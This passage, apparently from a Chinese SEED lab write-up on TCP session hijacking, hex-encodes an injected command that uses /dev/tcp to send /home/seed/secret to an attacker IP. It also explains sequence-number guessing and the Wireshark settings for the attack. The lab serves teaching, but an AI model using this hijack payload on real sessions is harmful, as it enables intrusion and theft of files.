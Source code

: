 ```python
python
# python2 seed
'\r cat /home/seed/secret > /dev/tcp/攻击者IP/9090 \r'.encode('hex')

# python3 ubuntu
'\r cat /home/seed/secret > /dev/tcp/攻击者IP/9090 \r'.encode("utf-8").hex()
```

![image-20220309084157026](TCPIPAttackLab/image-20220309084157026.png)

```bash
'0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f3139322e3136382e3133362e3133302f39303930200d'
```

观察最后一个TCP包，像这种显然不是正确的，序列号（seq,ack）太小了，不是绝对序列号。

> 有时很难使用正确的序列号。尤其是当受害者依然在客户端进行输入时。这时可以做一个估计。例如，如果当前可以看到一个序列号 N，则可以在攻击时使用 N+100。只要这个序列号在服务器接收窗口的允许范围内。伪造数据就会被放在接收方缓冲区。受害者在客户端进行输入时，缺失的数据很快会被填充。攻击命令也会被执行。需要在伪造数据的开头放一个换行符（\r）否则攻击命令会和受害者输入的字符串联改变命令的含义。
>
> 实验中可以故意使用一个略大的一些的序列号，再发送一个数攻击包后服务器并不会马上得到机密内容，其要等待用户继续输入一些新的字符。直到达到攻击包使用的序列号，此时程序会立即收到机密内容，表明攻击成功，只要用户依然在使用telnet程序。攻击就可以成功。

![image-20220309010949250](TCPIPAttackLab/image-20220309010949250.png)

进入`Edit preferences`-->  右侧边栏的`Pritocols`--> 下滑到` TCP`-->  取消`Relative sequence numbers`选项-->`OK`
